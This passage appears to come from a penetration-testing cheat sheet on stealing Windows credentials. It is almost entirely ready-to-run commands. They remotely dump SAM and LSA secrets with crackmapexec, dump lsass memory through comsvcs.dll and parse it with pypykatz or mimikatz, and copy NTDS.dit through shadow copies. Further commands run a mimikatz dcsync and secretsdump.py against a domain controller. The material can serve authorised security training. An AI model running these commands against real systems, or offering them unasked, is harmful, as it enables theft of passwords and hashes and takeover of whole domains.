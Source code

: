 ```shell
```

- Dumping hashes remotely:

```shell
# Dump hashes from the SAM database 
crackmapexec smb $TARGET_IP --local-auth -u $USERNAME -p $PASSWORD --sam

# Extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords
crackmapexec smb $TARGET_IP --local-auth -u $USERNAME -p $PASSWORD --lsa
```

### Attacking LSSAS

```shell
# Get Process ID of lssas
tasklist /svc
Get-Process lsass
Get-Process lsass | Select Id, ProcessName

# Create lssas dump
rundll32 C:\windows\system32\comsvcs.dll, MiniDump $LSSAS_PROCESS_ID C:\lsass.dmp full

# Using pypykatz to dump credentials in linux
pypykatz lsa minidump lsass.dmp 

# Using mimikatz to dump creds from lssas
privilege::debug
sekurlsa::minidump lsass.dmp  # If dump available
sekurlsa::logonpasswords
```

### Attacking NTDS.dit

- From windows host: 

```shell
# Creating copy of ntds.dit using vssadmin
vssadmin CREATE SHADOW /For=C:
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

# Using mimikatz
lsadump::dcsync /domain:$DOMAIN /user:$DOMAIN\$USER
```

- From linux host:

```shell
crackmapexec smb $TARGET_IP  -u $USER -p $PASSWORD --ntds
secretsdump.py -outputfile hashes -just-dc $DOMAIN/$USER@$TARGET_IP 
```

- Enumerating users with reversible encryption enabled:
